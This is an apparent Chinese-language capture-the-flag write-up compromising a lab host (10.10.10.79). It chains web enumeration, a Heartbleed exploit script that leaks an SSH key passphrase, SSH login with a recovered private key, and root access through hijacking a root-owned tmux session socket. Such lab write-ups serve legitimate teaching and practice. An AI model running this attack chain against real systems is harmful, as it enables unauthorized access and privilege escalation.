nmap

```python
sudo nmap -T4 -Pn -sV 10.10.10.79
```



访问80，图片给的提示应该是心脏出血漏洞 [heartbleed ](https://zh.m.wikipedia.org/zh-hans/%E5%BF%83%E8%84%8F%E5%87%BA%E8%A1%80%E6%BC%8F%E6%B4%9E "heartbleed ")


dirbuster扫描web路径



```text
http://10.10.10.79/dev/
```



hype\_key



```纯文本
xxd -r -p hype_key>id_rsa
```



发现是ssh登录需要的密钥文件，hype应该是用户名，尝试登录，发现需要密码



&#x20;[heartbleed ](https://zh.m.wikipedia.org/zh-hans/%E5%BF%83%E8%84%8F%E5%87%BA%E8%A1%80%E6%BC%8F%E6%B4%9E "heartbleed ")漏洞利用

```bash
#查找kali上的脚本

searchsploit heartbleed 

#复制到当前目录
searchsploit -m 32745.py

```



```bash
python2 32745.py -h

python2 32745.py 10.10.10.79

```



得到

```bash
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==


#base64解码，这个应该就是密码

echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d

heartbleedbelievethehype


```

登录

```bash
ssh -i id_rsa hype@10.10.10.79
```



提示id\_rsa权限太大，修改一下密钥文件权限，重新登录

```bash
chmod 500 id_rsa
```

登录成功



提权，

`sudo -l`需要密码

查看进程信息

```bash
ps -aux |grep root
```



发现root进程 `/usr/bin/tmux -S /.devs/dev_sess`

`tmux`就是一个终端复用器，简单来说就是个终端

直接执行`tmux -S /.devs/dev_sess`，即可获得root shell


